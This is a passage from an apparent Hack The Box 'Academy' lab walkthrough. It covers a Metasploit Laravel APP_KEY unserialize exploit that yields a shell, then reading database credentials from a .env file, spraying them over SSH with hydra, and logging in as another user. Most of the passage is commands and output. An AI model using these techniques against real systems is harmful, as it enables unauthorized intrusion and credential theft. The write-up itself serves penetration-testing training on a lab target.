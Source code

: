 * exploit pre-requirement is `APP_KEY` which i already found

### Exploit using MSF

**Exploit Module :** `exploit/unix/http/laravel_token_unserialize_exec`

```bash
msf5 exploit(unix/http/laravel_token_unserialize_exec) > set RHOSTS 10.10.10.215
RHOSTS => 10.10.10.215
msf5 exploit(unix/http/laravel_token_unserialize_exec) > set VHOST dev-staging-01.academy.htb
VHOST => dev-staging-01.academy.htb
msf5 exploit(unix/http/laravel_token_unserialize_exec) > set app_key dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
app_key => dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
```
```bash
[*] Command shell session 1 opened
python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@academy:/var/www/html/htb-academy-dev-01/public$ whoami;id
whoami;id
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Escalating to cry0l1t3 

* running `linpeas` script found nothing except that `.env` file form `/var/www/html/academy/` directory that contains some passwords .
* **.env** file contains creds for local sql database

      DB_CONNECTION=mysql
      DB_HOST=127.0.0.1
      DB_PORT=3306
      DB_DATABASE=academy
      DB_USERNAME=dev
      DB_PASSWORD=mySup3rP4s5w0rd!!

* but not able to login into the database using these creds
* try spraying that password to all users with `hydra` for ssh login,

    `hydra -L users.txt -P password.txt 10.10.10.215 -t 4 ssh`

      [DATA] attacking ssh://10.10.10.215:22/
      [22][ssh] host: 10.10.10.215   login: cry0l1t3   password: mySup3rP4s5w0rd!!
      1 of 1 target successfully completed, 1 valid password found


*thats why i thought that founding `.env` file from [gobuster]() is unintended*

### creds 

`cry0l1t3:mySup3rP4s5w0rd!!`

* **ssh** 

    `ssh cry0l1t3@10.10.10.215`
